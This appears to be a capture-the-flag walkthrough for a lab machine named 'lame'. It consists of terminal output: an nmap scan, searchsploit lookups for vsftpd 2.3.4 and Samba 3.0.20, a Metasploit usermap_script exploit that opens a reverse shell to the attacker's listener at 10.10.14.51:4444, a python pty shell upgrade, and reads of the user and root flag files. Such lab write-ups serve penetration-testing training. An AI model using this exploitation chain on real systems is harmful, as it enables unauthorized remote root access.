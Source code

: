#nmap:
root@hacking:~$ nmap -sC -sV 10.10.10.3
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-25 19:17 EST
Nmap scan report for 10.10.10.3
Host is up (0.086s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.51
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/.
Nmap done: 1 IP address (1 host up) scanned in 59.82 seconds

#searchsploit:
root@hacking:~$ searchsploit vsftpd 2.3.4
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                                                       |  Path
                                                                                                                                                                                                     | (/usr/share/exploitdb/)
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                                                                               | exploits/unix/remote/17491.rb
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result

root@hacking:~$ searchsploit Samba 3.0.20
------------------------------------------------------------- ----------------------------------------
 Exploit Title                                               |  Path
                                                             | (/usr/share/exploitdb/)
------------------------------------------------------------- ----------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Ex | exploits/unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                        | exploits/linux/remote/7701.txt
------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result

#metasploit
msf5 exploit(multi/samba/usermap_script) > exploit 

[*] Started reverse TCP double handler on 10.10.14.51:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 0wEAZepNh9wxsUHW;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "0wEAZepNh9wxsUHW\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 3 opened (10.10.14.51:4444 -> 10.10.10.3:55887) at 2020-02-25 19:23:21 -0500

#update shell:
python -c 'import pty; pty.spawn("/bin/bash")'

root@lame:/# 
root@lame:/home/makis# cat user.txt
cat user.txt
6...............
root@lame:/# cd /root
cd /root
root@lame:/root# ls 
ls 
Desktop  reset_logs.sh  root.txt  vnc.log
root@lame:/root# cat root.txt
cat root.txt
9....
